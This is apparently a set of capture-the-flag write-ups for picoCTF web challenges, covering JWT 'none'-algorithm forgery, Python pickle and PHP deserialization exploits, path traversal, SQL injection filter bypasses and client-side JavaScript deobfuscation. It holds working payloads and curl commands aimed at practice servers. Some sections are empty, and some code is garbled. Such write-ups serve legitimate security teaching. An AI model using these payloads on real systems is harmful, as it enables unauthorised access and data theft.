Interesting that there does seem to be an admin page, and we are logged in as the admin user but get redirected to the homepage.

Another challenge I didn't finish before the CTF ended 😞 I didn't see any writeups yet but heard someone mentioning changing the request method to POST. I tried that on the `debug.php` page but apparently I was meant to do it on `index.php` during login. Testing that confirms we are redirected to `admin.php` containing the flag.

Flag: `CIT{7bf610e96ade83db}`

### Problem - 46 : (JWT_none_algo)

Most web application developers use third party components without testing their security. Some of the past affected companies are:

- Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
- VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one? The website is running [here](http://saturn.picoctf.net:64368/). Can you become an `admin` ?You can login as `test` with the password `Test123!` to get started.

Solution :


After log in we will only see a juicy authentication token . 


JWT format → 

```python
<Header>.<Payload>.<Signature>
```


In this , We have to change the “role” : “admin” but why the Invalid Signature . Its not because of the secret signature. 


But , this cookie don’t give the flag because the site may be support “none” algorithm for “Admin”.

Sadly , [jwt.io](http://jwt.io) don’t support “none” algo . For this we have to go to this site →https://token.dev/


```python
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzQ2NTUxNzQ5NzY5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzYuMC4wLjAgU2FmYXJpLzUzNy4zNiBFZGcvMTM2LjAuMC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQ2NTUxNzUwfQ.
```

Remember there should be dot (.) at last as the site expect this but not any signature .


### Problem - 47 : (flask-unsign_secret_bruteforcing)

Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

[server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py)[http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)

Solution :


Save that cookie and refresh →


### Problem - 48 : ( Insecure_Deserialization_PHP **)**

Try to recover the flag stored on this website [http://mercury.picoctf.net:5428/](http://mercury.picoctf.net:5428/)

***Concept :***

This video may also help you → https://www.youtube.com/watch?v=jwzeJU_62IQ

> Serialization = Converting objects to a storable/transmittable format (like JSON, XML, or binary)
> 
> 
> Deserialization = Converting that format back into objects
> 

📄 `vuln_app.py` – The Vulnerable Application

```python
import pickle

# Simulated user input (pretend this comes from the web or a socket)
def process_user_data(serialized_data):
    # 🚨 VULNERABLE: untrusted deserialization
    data = pickle.loads(serialized_data)
    print("Received object:", data)

if __name__ == "__main__":
    with open("payload.pkl", "rb") as f:
        process_user_data(f.read())

```

---

☠️ `exploit_payload.py` – Attacker's Payload

```python
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ("echo 'Hacked!' > hacked.txt",))

# Create malicious payload
payload = pickle.dumps(Exploit())

# Save to file for the vuln app to read
with open("payload.pkl", "wb") as f:
    f.write(payload)

```

---

**✅ How to Run It**

```bash
# Step 1: Generate the malicious payload
python3 exploit_payload.py

# Step 2: Run the vulnerable app
python3 vuln_app.py

# Step 3: Check the result
cat hacked.txt  # Should contain: Hacked!
```

---

Basically , the attacker sets a malicious byte code script in file which the victim basically deserialize to continue its work but , because of the command it will create a text file which will contain the “Hacked” . That means , attacker can run any command with that Insecure Vulnerabilities .

Solution :

PHP serialization format :

👤 Objects

```php
O:4:"User":1:{s:4:"name";s:5:"Alice";}
```

Breakdown:

| Part | Meaning |
| --- | --- |
| `O:` | This is an **Object** |
| `4` | The length of the class name (`"User"` has 4 chars) |
| `"User"` | The **class name** of the object |
| `1` | The object has **1 property** |
| `{ ... }` | The body contains key-value pairs (property => value) |

Inside the braces:

| Part | Meaning |
| --- | --- |
| `s:4:"name";` | A **string** key with 4 characters: `"name"` |
| `s:5:"Alice";` | A **string** value with 5 characters: `"Alice"` |

> Initially, the website appears as follows:
> 
> 
> Site Presentation
> 
> 
> 
> with a login screen. Initially, I thought it might be an `SQL Injection`, but after trying some classic payloads, nothing happened. Since it’s a blackbox challenge, I decided to inspect the page source, but I didn’t find anything interesting. There was just a `form` with `action="index.php"`. So, I tried checking for `robots.txt`:
> 
> 
> 
> and this returned a positive result. As we can see, there’s a `Disallow: /admin.phps`, but `.phps` seemed strange. The first question I asked myself was, “Is this some sort of typo?” But I quickly answered this to myself that it means source code .
> 
> 
> 
> Because , after trying to visit the route `/index.phps` (as by default in php), I discovered that correct :
> 
> Index.phps
> 
> 
> 
> ```php
> <?php
> require_once("cookie.php");
> 
> if(isset($_POST["user"]) && isset($_POST["pass"])){
> 	$con = new SQLite3("../users.db");
> 	$username = $_POST["user"];
> 	$password = $_POST["pass"];
> 	$perm_res = new permissions($username, $password);
> 	if ($perm_res->is_guest() || $perm_res->is_admin()) {
> 		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
> 		header("Location: authentication.php");
> 		die();
> 	} else {
> 		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
> 	}
> }
> ?>
> ```
> 
> up to this point, nothing too strange, except for that `serialize()` which immediately made me think of an `Insecure Deserialization`. I also noticed that a `require_once("cookie.php");` was specified, so I tried visiting the route `/cookie.phps` and got the source:
> 
> Cookie.phps
> 
> ```php
> <?php
> session_start();
> 
> class permissions
> {
> 	public $username;
> 	public $password;
> 
> 	function __construct($u, $p) {
> 		$this->username = $u;
> 		$this->password = $p;
> 	}
> 
> 	function __toString() {
> 		return $u.$p;
> 	}
> 
> 	function is_guest() {
> 		$guest = false;
> 
> 		$con = new SQLite3("../users.db");
> 		$username = $this->username;
> 		$password = $this->password;
> 		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
> 		$stm->bindValue(1, $username, SQLITE3_TEXT);
> 		$stm->bindValue(2, $password, SQLITE3_TEXT);
> 		$res = $stm->execute();
> 		$rest = $res->fetchArray();
> 		if($rest["username"]) {
> 			if ($rest["admin"] != 1) {
> 				$guest = true;
> 			}
> 		}
> 		return $guest;
> 	}
> 
>         function is_admin() {
>                 $admin = false;
> 
>                 $con = new SQLite3("../users.db");
>                 $username = $this->username;
>                 $password = $this->password;
>                 $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
>                 $stm->bindValue(1, $username, SQLITE3_TEXT);
>                 $stm->bindValue(2, $password, SQLITE3_TEXT);
>                 $res = $stm->execute();
>                 $rest = $res->fetchArray();
>                 if($rest["username"]) {
>                         if ($rest["admin"] == 1) {
>                                 $admin = true;
>                         }
>                 }
>                 return $admin;
>         }
> }
> 
> if(isset($_COOKIE["login"])){
> 	try{
> 		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
> 		$g = $perm->is_guest();
> 		$a = $perm->is_admin();
> 	}
> 	catch(Error $e){
> 		die("Deserialization error. ".$perm);
> 	}
> }
> 
> ?>
> ```
> 
> it also references another file with a `.php` extension, namely `authentication.php`, so I tried reading the source the same way with `/authentication.phps`:
> 
> Authentication.phps
> 
> ```php
> <?php
> 
> class access_log
> {
> 	public $log_file;
> 
> 	function __construct($lf) {
> 		$this->log_file = $lf;
> 	}
> 
> 	function __toString() {
> 		return $this->read_log();
> 	}
> 
> 	function append_to_log($data) {
> 		file_put_contents($this->log_file, $data, FILE_APPEND);
> 	}
> 
> 	function read_log() {
> 		return file_get_contents($this->log_file);
> 	}
> }
> 
> require_once("cookie.php");
> if(isset($perm) && $perm->is_admin()){
> 	$msg = "Welcome admin";
> 	$log = new access_log("access.log");
> 	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
> } else {
> 	$msg = "Welcome guest";
> }
> ?>
> ```
> 
> Now that I have the source code of the challenge, we can move to the code analysis phase. The first vulnerable part can be found in `cookie.php`:
> 
> |  `1
>  2
>  3
>  4
>  5
>  6
>  7
>  8
>  9
> 10` | `if(isset($_COOKIE["login"])){
>   try{
>   	$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
>   	$g = $perm->is_guest();
>   	$a = $perm->is_admin();
>   }
>   catch(Error $e){
>   	die("Deserialization error. ".$perm);
>   }
> }` |
> | --- | --- |
> 
> here, as we can see, there is a check to see if the `login` cookie is set (in the rest of the code, the login cookie is set only if the login is successful, either as a `guest` or as an `admin`). So, if the cookie exists, it is URL-decoded, base64-decoded, and then deserialized. Therefore, this cookie should be a serialized `permissions` object, especially since the `is_guest()` and `is_admin()` functions, which belong to the `permission` class, are called afterward. Finally, if any exception is thrown or any type of error occurs, there’s a `catch` block that prints the error and the `$perm` object (which should be the `permission` class object). However, as we can see:
> 
> | `1
> 2
> 3
> 4` | `function \__toString() {
>   	return $u.$p;
>   }` |
> | --- | --- |
> 
> the `permission` class implements the `magic method __toString()`. This method defines the behavior of the object when any type of casting to a string is performed. In this case, it concatenates `username` and `password`, so when a casting is done, as we saw in the previous `if` statement, it will print `$u.$p`. This behavior can be exploited by causing any kind of error during the deserialization of the object in the `try` block. In the challenge hints, we are told that the flag is located at the route `../flag`, so keep that in mind because it will become useful shortly when analyzing the new vulnerable code. The other file that contains vulnerable code is `authentication.php`:
> 
> |  `1
>  2
>  3
>  4
>  5
>  6
>  7
>  8
>  9
> 10
> 11
> 12
> 13
> 14
> 15
> 16
> 17
> 18
> 19
> 20
> 21
> 22
> 23
> 24
> 25` | `class access_log
> {
> blic $log_file;
> nction \__construct($lf) {
> his->log_file = $lf;
> 
> nction \__toString() {
> turn $this->read_log();
> 
> nction append_to_log($data) {
> le_put_contents($this->log_file, $data, FILE_APPEND);
> 
> nction read_log() {
> turn file_get_contents($this->log_file);
> 
> }
> 
> require_once("cookie.php");
> if(isset($perm) && $perm->is_admin()){
> sg = "Welcome admin";
> og = new access_log("access.log");
> og->append_to_log("Logged in at ".date("Y-m-d")."\n");
> } else {
> sg = "Welcome guest";
> }` |
> | --- | --- |
> 
> Trying to visit the page, we only get a `Welcome Guest`, as we can see from the code above:
> 
> Auth
> 
> 
> 
> Disregarding this, regarding the vulnerable code above, we can definitely say that it can be exploited in some way to read `../flag`, as I believe it’s the only way and those `file_get_contents` functions will certainly be useful for something. The other vulnerable part is the `require_once("cookie.php")`, as it will invoke the check seen earlier, which is vulnerable to deserialization of a malicious object. However, with an object of the `permission` class, we cannot do anything, unfortunately. Fortunately, we have another class available: `access_log`, with which we can serialize a malicious object. Indeed, we can exploit the serialization of the object to set the attribute `$log_file = "../flag"`, so when the `read_log()` function is called, we could read the `../flag` file instead of the `access.log` file. However, this is only possible because of the previously seen check, as without that check, we wouldn’t be able to achieve deserialization, let alone read the output of the `../flag` file. In fact, by deserializing a malicious `access_log` object with `$log_file = "../flag"`, and setting it as the `login` cookie, it will enter the `if` statement, but when it calls `$perm->is_guest()`, we will get an error, because we are not using an object of the `permission` class, which has the `is_guest()` function declared, but rather using an object of the `access_log` class, which doesn’t have that function. This will lead to the `catch`, and that’s where the magic happens. In fact, as we can see, the `access_log` object also declares the magic method `__toString()`, which calls the `read_log()` function. So when the exception occurs, it will print `Deserialization error. File content passed to the $log_file parameter`, because it will cast the object to a string, call the `read_log()` function, which will grab the content of the `../flag` file using the `file_get_contents()` function and print it.
> 

***Exploitation Steps***

Initial setup

> Once the vulnerability and how to exploit it are understood, we need to figure out how to create the malicious serialized object. We could do this manually, because by doing a couple of searches, we can understand how the serialize() function in PHP serializes objects and by what criteria it does so. For example (a little spoiler, the final serialized object is the following: O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}). In this case, O:10 indicates the number of characters in access_log (which is the class of the object to be serialized). Next, we find :1: which indicates the number of parameters the class has. Inside the curly braces, we find s:8:"log_file";s:7:"../flag"; where s represents the type (String), 8 is the number of characters in log_file, and following the same logic, we find the value we want to pass to the log_file attribute, in this case, obviously ../flag. However, as we can see, it’s better not to go crazy and write it manually. Let’s move on to the exploitation phase to see how to proceed thinking outside the box.
> 

Exploitation

> The serialize() function produces an output like the one we saw earlier, right? This function takes an object to serialize, and in this case, we want to serialize the object of the access_log class, correct? So, a much simpler approach would be to copy the access_log class into a .php file, or directly use https://onlinephp.io/, instantiate it with the attribute $log_file = "../flag", and serialize it to obtain the serialized object output (even though in the code analyzed earlier, as we mentioned, when it is deserialized, it first decodes from urlencode, then from base64, and then deserializes it). So, to get the correct output, we can simply reverse the encoding order and follow the process described earlier. To recap and make it clearer, I’ll leave you a screenshot of the code to obtain the serialized object:
> 
> 
> Online PHP Exploit
> 
> 
> 
> Once serialized, all we have to do is open `ChromeDevTools`, add the `login = Malicious Serialized Object` cookie, and visit the `/authentication.php` route to obtain the flag.
> 

### Flag capture

> 
> 
> 
> Manual Flag
> 
> 
> 

# 🛠️ Exploitation Process

## Approach

> The automatic exploit serializes the object by passing "../flag" in the constructor to set $log_file = "../flag". Once the malicious serialized object is built, it is set in the login cookie as login=malicious_serialized_object and a request is made using PHP cURL, extracting the flag from the response using a regex.
> 
> - [Exploit](https://mh4ck3r0n3.github.io/resources/PicoGym/PicoCTF-2021/SuperSerial/exploit.php)

# 🚩 Flag Capture

> Flag
> 
> 
> **picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}|**
> 
> > 
> > 

## Proof of Execution

> 
> 
> 
> Automated Flag
> 
> 
> 
> *Screenshot of successful exploitation*
> 

### Problem - 49 : (Releative_path_traversal)

Can you get the flag?We know that the website files live in `/usr/share/nginx/html/`and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?Here's the [website](http://saturn.picoctf.net:64008/).

Solution :


It will show the .txt file content with end point “read.php” .


AS mentioned this files lies on this directory → `/usr/share/nginx/html/` . Why not we try a relative traversal to see if it works with that same file .


This will also show thee .txt content . That means , it is vulnerable with relative path traversal .

Basically , the flag lies in the root directory .


With curl ,


Remember the files can only be read in “read.php” endpoint .

### Problem - 50 : (JWT_Secret_key)

Solution :


### Problem - 51 : (Postgresql_injection)

Connect to this PostgreSQL server and find the flag!

`psql -h saturn.picoctf.net -p 65217 -U postgres pico` Password is `postgres`

Solution :

***🛠️ PostgreSQL CTF Cheat Sheet***

| **Category** | **Command / Syntax** | **Description** |
| --- | --- | --- |
| **Connection** | `psql -h <host> -p <port> -U <user> <dbname>` | Connect to a remote DB |
| **Quit** | `\q` | Exit `psql` |
| **Switch DB** | `\c <dbname>` | Change database |
| **List DBs** | `\l` or `SELECT datname FROM pg_database;` | Show databases |
| **Current DB/User** | `SELECT current_database();`  `SELECT current_user;` | Show current context |
| **Schemas** | `\dn` | List schemas |
|  | `SELECT schema_name FROM information_schema.schemata;` | Show schema names |
| **Set Schema** | `SET search_path TO <schema>;` | Use a specific schema |
| **List Tables** | `\dt` or `\dt *.*` | List tables (in current/all schemas) |
|  | `SELECT table_name FROM information_schema.tables WHERE table_schema NOT IN ('pg_catalog', 'information_schema');` | Enumerate tables across schemas |
| **Describe Table** | `\d <table>` | Show table structure |
|  | `SELECT column_name FROM information_schema.columns WHERE table_name = 'table';` | List columns |
| **Search for Flag** | `SELECT table_name, column_name FROM information_schema.columns WHERE column_name ILIKE '%flag%';` | Find likely flag columns |
|  | `SELECT * FROM <table>;` | Dump table contents |
| **Advanced Queries** | `SELECT * FROM <table> WHERE <column> ILIKE '%flag%';` | Search for data resembling flags |
| **Insert Data** | `INSERT INTO table (col1, col2) VALUES ('val1', 'val2');` | Insert row |
| **Update Data** | `UPDATE table SET col='value' WHERE condition;` | Modify data |
| **Delete Data** | `DELETE FROM table WHERE condition;` | Remove data |
| **Create Table** | `CREATE TABLE name (id SERIAL PRIMARY KEY, data TEXT);` | Create a new table |
| **Users & Privs** | `CREATE USER user WITH PASSWORD 'pass';GRANT ALL PRIVILEGES ON db TO user;` | Create user, assign permissions |
| **List Roles** | `\du` | Show all users/roles |
| **Enumerate Data** | `SELECT * FROM pg_catalog.pg_tables;` | Tables in all schemas |
|  | `SELECT * FROM pg_roles;` | List roles (users) |
| **Join Tables** | `SELECT * FROM a JOIN b ON a.id = b.a_id;` | Inner join example |


### Problem - 52 : (User_agent_change)

This website can be rendered only by **picobrowser**, go and catch the flag! `https://jupiter.challenges.picoctf.org/problem/50522/`

([link](https://jupiter.challenges.picoctf.org/problem/50522/)) or http://jupiter.challenges.picoctf.org:50522

Solution :


It says “user-agent” is not “ picobrowser ” . As , the **User-Agent** header identifies the client’s software, version, OS, and device type making the HTTP request . 

Now , we open the firefox inspect mode (ctrl + shift + i) and after clicking “network” portion refresh the site and you will see all scopes rendering at that time .

Then , click on the “Flag” tag file and it will show the request and response box . Then , right click and press “edit and resend” then , replace the user-agent with “picobrowser” .


Then , send that .


In the response you will the flag .

### Problem - 53 : (Advance_sql_1 )

Can you beat the filters? Log in as admin [http://jupiter.challenges.picoctf.org:19593/](http://jupiter.challenges.picoctf.org:19593/) [http://jupiter.challenges.picoctf.org:19593/filter.php](http://jupiter.challenges.picoctf.org:19593/filter.php)

Solution :

In this challenge, we are linked to a login form we are meant to bypass with SQL injection. At each level the filter changes, so we have to update your injection as necessary so that we don’t need use that round’s “keyword” .

***Round 1 - filter: or***

Use basic injection and comment out the rest of the line.

input: `admin'--`

`SELECT * FROM users WHERE username='admin'--' AND password='a'`

***Round 2 - filter: or and like = –***


Without `--`, check for other ways to comment. We can also use UNION to get our specific user.

input: `admin'/*`

`SELECT * FROM users WHERE username='admin'/*' AND password='a'`

input: `' union select * from users where username in("admin")/*`

`SELECT * FROM users WHERE username='' union select * from users where username in("admin")/* AND password='a'`

***Round 3 - filter: or and = like > < –*** 


The first injection from the previous round still works here, but let’s try to get the second to work too. Spaces are now blocked, but we can use `/**/` comments for the same effect. I tried %20 to replace all the spaces, but it was not effective.

input: `admin'/*`

`SELECT * FROM users WHERE username='admin'/*' AND password='a'`

input: `'/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*`

`SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*' AND password='a'`

***Round 4 - filter: or and = like > < – admin*** 


In SQLITE, `||` is a concatenation operator. The simple solution is to simply split up “admin” in a way to bypass the filter. A more complicated solution could include encoding encode “admin” in ASCII number code and using the SQL `CHAR()` function to decode it.

input: `adm'||'in'/*`

`SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'`

input: `'/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*`

`SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*' AND password='a'`

***Round 5 - filter: or and = like > < – union admin*** 


Splitting up “admin” still works as only UNION is additionally blacklisted.

input: `adm'||'in'/*`

`SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'`


### Problem - 54 : (Advanced_SQL_2)

This website looks familiar... Log in as admin Site: [http://mercury.picoctf.net:65261/](http://mercury.picoctf.net:65261/) Filter: [http://mercury.picoctf.net:65261/filter.php](http://mercury.picoctf.net:65261/filter.php)

Solution :

1. According to [filter.php](http://mercury.picoctf.net:35178/filter.php) the application filters the following: `or and true false union like = > < ; -- /* */ admin`.


1. The query that solves this is `ad'||'min'%00`, which is similar to the final payload in the "Web Gauntlet" challenge from the PicoCTF 2020 Mini competition. In sqlite the `||` operator concatenates strings, thus allowing us to bypass the filter for `admin`. Next, the `%00` is a null byte, which terminates the SQL query.
2. A null byte cannot be typed directly into the website. So we use cURL instead: 

```php
curl -s --data "user=ad'||'min'%00&pass=a" http://mercury.picoctf.net:65261/index.php --cookie "PHPSESSID=kvn6qno0rtc7r78mp6f6p35dnf"
```

I copied the `PHPSESSID` cookie from the browser, which is important because it is how the website knows to give us the flag when we go to `/filter.php` to get the flag.

1. We can retreive the flag with the browser that has the same `PHPSESSID` or wth curl: 

```php
curl -s http://mercury.picoctf.net:65261/filter.php --cookie "PHPSESSID=kvn6qno0rtc7r78mp6f6p35dnf" | grep picoCTF
```

1. The code for the filter and the flag are shown in `/filter.php` when the login is bypassed:


**Flag**

`picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}`

Another way →

The attached website gives us a standard login form. If we enter credentials we even get the SQL query run on the server. An example after entering `user` and `pass`:

```
SELECT username, password FROM users WHERE username='user' AND password='pass'
```

We can enter a `'` sign in both the `username` and `password` fields to escape the query:

```
SELECT username, password FROM users WHERE username=''' AND password='''
```

But if we enter one of the filtered entities, we get blocked.

We want to login as `admin`, but entering `admin` as plaintext gets blocked. The easy bypass is to use `||` for concatenation and send `a'||'dmin` as the username:

```
SELECT username, password FROM users WHERE username='a'||'dmin' AND password='pass'
```

However, we still need to somehow neutralize the password check. The `except` keyword should be able to do that, so by sending `a'||'dmin' except select * from users where username='` we would get:

```
SELECT username, password FROM users WHERE username='a'||'dmin' except select * from users where username='' AND password='pass'
```

This means that we should get back any user that has the username of `admin` except for users which have an empty username and a password of `pass`, which in practice should just give us the admin. However, this query got blocked due to a new constraint: `"Combined input lengths too long! (> 35)"`.

Eventually, the following query did the job:

```
username: adm'||'in
password: ' glob '*

Full query:

SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*'
```

The `glob` keyword is used to match text values against a pattern using wildcards. Since we provided the `*` wildcard, we are saying: Give us a user with the username `admin` and any password.


### Problem - 54 : (Javascript_beautifier_clientside_console)

Can you break into this super secure portal?

`https://jupiter.challenges.picoctf.org/problem/6353/`

([link](https://jupiter.challenges.picoctf.org/problem/6353/)) or http://jupiter.challenges.picoctf.org:6353

Solution :
What ever giving input it shows wrong password.


We visit the website and inspect the source code:

```html
<html>
<head>
<title>Secure Login Portal V2.0</title>
</head>
<body background="barbed_wire.jpeg" >
<!-- standard MD5 implementation -->
<script type="text/javascript" src="md5.js"></script>

<script type="text/javascript">
  var _0x5a46=['55670}','_again_0','this','Password\x20Verified','Incorrect\x20password','getElementById','value','substring','picoCTF{','not_this'];(function(_0x4bd822,_0x2bd6f7){var _0xb4bdb3=function(_0x1d68f6){while(--_0x1d68f6){_0x4bd822['push'](_0x4bd822['shift']());}};_0xb4bdb3(++_0x2bd6f7);}(_0x5a46,0x1b3));var _0x4b5b=function(_0x2d8f05,_0x4b81bb){_0x2d8f05=_0x2d8f05-0x0;var _0x4d74cb=_0x5a46[_0x2d8f05];return _0x4d74cb;};function verify(){checkpass=document[_0x4b5b('0x0')]('pass')[_0x4b5b('0x1')];split=0x4;if(checkpass[_0x4b5b('0x2')](0x0,split*0x2)==_0x4b5b('0x3')){if(checkpass[_0x4b5b('0x2')](0x7,0x9)=='{n'){if(checkpass[_0x4b5b('0x2')](split*0x2,split*0x2*0x2)==_0x4b5b('0x4')){if(checkpass[_0x4b5b('0x2')](0x3,0x6)=='oCT'){if(checkpass[_0x4b5b('0x2')](split*0x3*0x2,split*0x4*0x2)==_0x4b5b('0x5')){if(checkpass['substring'](0x6,0xb)=='F{not'){if(checkpass[_0x4b5b('0x2')](split*0x2*0x2,split*0x3*0x2)==_0x4b5b('0x6')){if(checkpass[_0x4b5b('0x2')](0xc,0x10)==_0x4b5b('0x7')){alert(_0x4b5b('0x8'));}}}}}}}}else{alert(_0x4b5b('0x9'));}}
</script>
<div style="position:relative; padding:5px;top:50px; left:38%; width:350px; height:140px; background-color:gray">
<div style="text-align:center">
<p>New and Improved Login</p>

<p>Enter valid credentials to proceed</p>
<form action="index.html" method="post">
<input type="password" id="pass" size="8" />
<br/>
<input type="submit" value="verify" onclick="verify(); return false;" />
</form>
</div>
</div>
</body>
</html>
```

Let's call a [Javascript Beautifier](http://www.jsnice.org/) in order to make the Javascript code a bit more readable:


```jsx
'use strict';
/** @type {!Array} */
var _0x5a46 = ["c2047}", "_again_6", "this", "Password Verified", "Incorrect password", "getElementById", "value", "substring", "picoCTF{", "not_this"];
(function(data, i) {
  /**
   * @param {number} isLE
   * @return {undefined}
   */
  var write = function(isLE) {
    for (; --isLE;) {
      data["push"](data["shift"]());
    }
  };
  write(++i);
})(_0x5a46, 435);
/**
 * @param {string} level
 * @param {?} ai_test
 * @return {?}
 */
var _0x4b5b = function(level, ai_test) {
  /** @type {number} */
  level = level - 0;
  var rowsOfColumns = _0x5a46[level];
  return rowsOfColumns;
};
/**
 * @return {undefined}
 */
function verify() {
  checkpass = document[_0x4b5b("0x0")]("pass")[_0x4b5b("0x1")];
  /** @type {number} */
  split = 4;
  if (checkpass[_0x4b5b("0x2")](0, split * 2) == _0x4b5b("0x3")) {
    if (checkpass[_0x4b5b("0x2")](7, 9) == "{n") {
      if (checkpass[_0x4b5b("0x2")](split * 2, split * 2 * 2) == _0x4b5b("0x4")) {
        if (checkpass[_0x4b5b("0x2")](3, 6) == "oCT") {
          if (checkpass[_0x4b5b("0x2")](split * 3 * 2, split * 4 * 2) == _0x4b5b("0x5")) {
            if (checkpass["substring"](6, 11) == "F{not") {
                if (checkpass[_0x4b5b("0x2")](12, 16) == _0x4b5b("0x7")) {
              if (checkpass[_0x4b5b("0x2")](split * 2 * 2, split * 3 * 2) == _0x4b5b("0x6")) {
                  alert(_0x4b5b("0x8"));
                }
              }
            }
          }
        }
      }
    }
  } else {
    alert(_0x4b5b("0x9"));
  }
}
;
```

We see that `_0x4b5b` is a function used to obfuscate different values. It is calculated in runtime. Luckily, we can use the browser's Javascript console ("Developer Tools") in order to evaluate `_0x4b5b` and read its values:


```
>>> _0x4b5b
function _0x4b5b()

>>> _0x4b5b("0x0")
"getElementById"
>>> _0x4b5b("0x1")
"value"
>>> _0x4b5b("0x2")
"substring"
>>> _0x4b5b("0x3")
"picoCTF{"
>>> _0x4b5b("0x4")
"not_this"
>>> _0x4b5b("0x5")
"55670}"
>>> _0x4b5b("0x6")
"_again_0"
>>> _0x4b5b("0x7")
"this"
>>> _0x4b5b("0x8")
"Password Verified"
>>> _0x4b5b("0x9")
"Incorrect password"
```

Let's replace the function calls with hardcoded values to improve readability:

```jsx
function verify() {
  checkpass = document["getElementById"]("pass")["value"];
  /** @type {number} */
  split = 4;
  if (checkpass["substring"](0, split * 2) == "picoCTF{") {
    if (checkpass["substring"](7, 9) == "{n") {
      if (checkpass["substring"](split * 2, split * 2 * 2) == "not_this") {
        if (checkpass["substring"](3, 6) == "oCT") {
          if (checkpass["substring"](split * 3 * 2, split * 4 * 2) == "0a029}") {
            if (checkpass["substring"](6, 11) == "F{not") {
                if (checkpass["substring"](12, 16) == "this") {
              if (checkpass["substring"](split * 2 * 2, split * 3 * 2) == "_again_5") {
                  alert("Password Verified");
                }
              }
            }
          }
        }
      }
    }
  } else {
    alert("Incorrect password");
  }
}
```

So this is very similar to [dont-use-client-side](https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/dont-use-client-side.md), using `substring` to authenticate the password.

We have:

```
(0-8)      == "picoCTF{"
(7-9)      == "{n"
(8-16)     == "not_this"
(3-6)      == "oCT"
(24-32)    == "0a029}"
(6-11)     == "F{not"
(16-24)    == "_again_5"
(12-16)    == "this"

```

Notice that there are some overlaps.

An evil way to turn this into a flag would be by transforming the javascript substrings into Python array-assignment code and executing it:

```python
text = """
  if (checkpass["substring"](0, split * 2) == "picoCTF{") {
    if (checkpass["substring"](7, 9) == "{n") {
      if (checkpass["substring"](split * 2, split * 2 * 2) == "not_this") {
        if (checkpass["substring"](3, 6) == "oCT") {
          if (checkpass["substring"](split * 3 * 2, split * 4 * 2) == "0a029}") {
            if (checkpass["substring"](6, 11) == "F{not") {
                if (checkpass["substring"](12, 16) == "this") {
              if (checkpass["substring"](split * 2 * 2, split * 3 * 2) == "_again_5") {
"""

flag = [None] * 32
split = 4
for line in text.split("\n"):
    line = line.strip()
    if line == "":
        continue
    line = line.replace('if (checkpass["substring"](', 'flag[').replace(', ', ":").replace(') == ', '] = ').replace(') {', '')
    exec(line)

print "".join(flag)
```

This gives us the flag at the price of allowing `exec` to slip into our code.

```python
root@kali:/media/sf_CTFs/pico/Client-side-again# python solve.py
flag[0:split * 2] = "picoCTF{"
flag[7:9] = "{n"
flag[split * 2:split * 2 * 2] = "not_this"
flag[3:6] = "oCT"
flag[split * 3 * 2:split * 4 * 2] = "0a029}"
flag[6:11] = "F{not"
flag[12:16] = "this"
flag[split * 2 * 2:split * 3 * 2] = "_again_5"
picoCTF{not_this_again_50a029}
```

### Problem - 54 : (SQL_With_Debug)

There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

Solution :


The website offered an admin login page:

```html
<form action="login.php" method="POST">
    <fieldset>
        <div class="form-group">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" class="form-control">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <div class="controls">
                <input type="password" id="password" name="password" class="form-control">
            </div>
        </div>
        <input type="hidden" name="debug" value="0">

        <div class="form-actions">
            <input type="submit" value="Login" class="btn btn-primary">
        </div>
    </fieldset>
</form>
```

Here , we see the debug is “0” . 

If a website has its debug mode set to **`0`** (typically meaning "disabled"), several things will happen:

**1. Error Suppression ,**

- Detailed error messages (PHP, Python, SQL errors, etc.) will be hidden from users
- Generic, non-revealing error pages will be shown instead (like "500 Internal Server Error")
- Stack traces and technical details won't be exposed

**2. Security Implications ,**

- Prevents attackers from seeing sensitive information in error messages
- Hides database structure, queries, or file paths that could aid exploitation
- Reduces information leakage that could help in SQLi, path traversal, etc.

**3. Development Impact ,**

- Makes debugging harder for developers (they must check logs instead)
- Common in production environments (vs. debug=1 in development)

So , set that to “ 1 “ ,


Now , we will see the sql code after whatever we input.


From the source code we see that the credentials will be bypassed in the “login.php” & method is “POST” and the fields of parameters ( “id” ) are → username , password & debug (may needed if we failed in the first sqli . By reading the sensitive info we can come back strongly in 2nd try)


```bash
